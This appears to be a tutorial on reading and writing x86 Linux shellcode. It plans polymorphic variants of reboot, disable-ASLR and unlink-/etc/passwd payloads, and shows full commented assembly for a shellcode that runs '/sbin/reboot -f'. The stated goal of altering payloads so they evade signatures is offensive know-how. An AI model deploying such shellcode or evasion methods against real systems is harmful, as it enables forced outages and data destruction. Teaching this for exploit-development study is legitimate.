 ## Prerequisites

- Basic understanding of registers
- Basic understanding of stack and memory
- Basic understanding of assembly

## Context
Have you ever generated shellcode with tools like Metasploit and MSFvenom? 
If you have, I'm sure you've wondered what that shellcode actually translates to beyond the generic descriptor "linux/x86/shell_bind_tcp".

I'm going to teach you how to not only read shellcode, but create your own as well.

## Approach

I have chosen the following 3 shellcodes to make polymorphic from shell-strom.org:

1. reboot
2. disable aslr
3. unlink /etc/passwd and exit

My approach will be to:

- Take each shellcode and analyze it to understand what it does
- Place it in a sample stub c program to try it out to make sure it works before modification
- Modify the shellcode with garbage instructions and equivalent instructions
- Place the modified shellcode into the stub c program and verify that it continues to work properly

## Shellcode 1: Reboot
The shellcode for rebooting a system looks like the following. I have converted the AT&T syntax to Intel but other than that the commands are the same. Lets analyze it and try to understand what it does.
```
global _start
section .text
  _start:
    xor    eax,eax    ; zero out eax
    push   eax        ; place 0x00000000 on the stack
    push   0x746f6f62 ; push toob to the stack
    push   0x65722f6e ; push er/n to the stack
    push   0x6962732f ; push ibs/ to the stack
    mov    ebx,esp    ; place pointer to /sbin/reboot string on stack
    push   eax        ; place 0x00000000 on the stack
    push word 0x662d  ; push f- to the stack
    mov    esi,esp    ; place pointer to -f argument to the stack
    push   eax        ; push 0x00000000 on the stack
    push   esi        ; place pointer to -f argument on the stack
    push   ebx        ; place pointer to /sbin/reboot string on the stack
    mov    ecx,esp    ; move pointer to argument array /sbin/reboot, -f on the stack
    mov    al,0xb     ; place system call 11 (execve) in al
    int    0x80       ; call execve
```

